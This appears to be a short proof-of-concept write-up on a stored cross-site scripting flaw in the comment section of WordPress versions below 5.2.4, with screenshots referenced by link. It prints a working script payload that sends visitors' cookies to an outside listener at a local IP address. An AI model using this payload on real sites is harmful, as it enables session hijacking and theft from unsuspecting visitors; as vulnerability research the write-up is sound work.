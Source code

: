 
## Impact

- X**SS(Cross-Site Scripting) is an attack where** we can inject javascript code in the web application to use that web app for malicious purposes. Stored/Persistent XSS is stored in the database and whenever that webpage is visited by anyone that XSS payload from the database is injected into their webpage.

## Detail explanation

I researched this CVE and didn’t find clear information about this vulnerability so I assess the same WordPress version for the vulnerability and found Stored XSS in the comment section.

## Proof Of Concept (POC)

First, check your WordPress version should be below 5.2.4

![Untitled](images/Untitled%2012.png)

Now Go to the Comments Section of the WordPress.

![Untitled](images/Untitled%2013.png)

![Untitled](images/Untitled%2014.png)

Now we can use javascript code to steal the cookie.

```bash
<script> document.write('<img src=http://172.17.0.1:7777?c=' + escape(document.cookie))</script>
```

[def]: Videos/CVE-2021-29447.mp4
[def2]: https://i.imgur.com/vKb2F1B.png
[def3]: Videos/CVE-2021-29447.mp4